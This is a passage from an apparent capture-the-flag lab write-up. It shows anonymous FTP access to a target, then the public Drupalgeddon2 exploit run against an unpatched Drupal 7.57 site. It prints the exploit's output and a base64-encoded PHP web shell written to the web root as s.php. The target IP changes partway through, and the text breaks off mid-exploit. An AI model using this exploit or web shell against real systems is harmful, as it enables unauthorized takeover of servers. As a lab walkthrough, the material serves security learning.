 Three interesting ports open. First stop we'll go for the FTP port.  
  
```  
root@kali:~# pftp 157.203.11.95  
Connected to 157.203.11.95.  
220 Pinky's FTP  
Name (157.203.11.95:root): anonymous  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
227 Entering Passive Mode (157,203,11,95,200,14).  
150 Here comes the directory listing.  
-rw-r--r-- 1 0 0 173 May 14 17:37 WELCOME  
226 Directory send OK.  
ftp> get WELCOME  
local: WELCOME remote: WELCOME  
227 Entering Passive Mode (157,203,11,95,65,134).  
150 Opening BINARY mode data connection for WELCOME (173 bytes).  
226 Transfer complete.  
173 bytes received in 0.00 secs (1.6499 MB/s)  
ftp> exit  
221 Goodbye.  
root@kali:~# cat WELCOME  
Welcome to Pinky's Palace V3  
  
Good Luck ;}  
  
I encourage you to be creative, try and stay away from metasploit and pre-made tools.  
You will learn much more this way!  
  
~Pinky  
```   

Next stop, let's check out the HTTP page.  ![](https://image.ibb.co/ixnFSd/pinkdrup.png)
 
So a basic Drupal installation.  If we remember back to February of this year, Drupal had a pretty nasty security bug known as [Drupalgeddon 2](https://www.drupal.org/sa-core-2018-002), which allowed full code execution on almost all Drupal installations.  It says it affects versions <7.58, so let's check `CHANGELOG.txt` to see what version this is.
```
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.
```
Noice!  We'll use [this PoC](https://github.com/dreadlocked/Drupalgeddon2)  to get a shell.

```bash
root@kali:~/panther/Drupalgeddon2# ruby drupalgeddon2.rb http://192.168.0.74:8000  
[*] --==[::#Drupalggedon2::]==--  
--------------------------------------------------------------------------------  
[i] Target : http://192.168.0.74:8000/  
--------------------------------------------------------------------------------  
[+] Found : http://192.168.0.74:8000/CHANGELOG.txt (HTTP Response: 200)  
[+] Drupal!: v7.57  
--------------------------------------------------------------------------------  
[*] Testing: Code Execution  
[i] Payload: echo VKSVGCTH  
[+] Result : VKSVGCTH  
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!  
--------------------------------------------------------------------------------  
[*] Testing: Writing To Web Root (./)  
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php  
```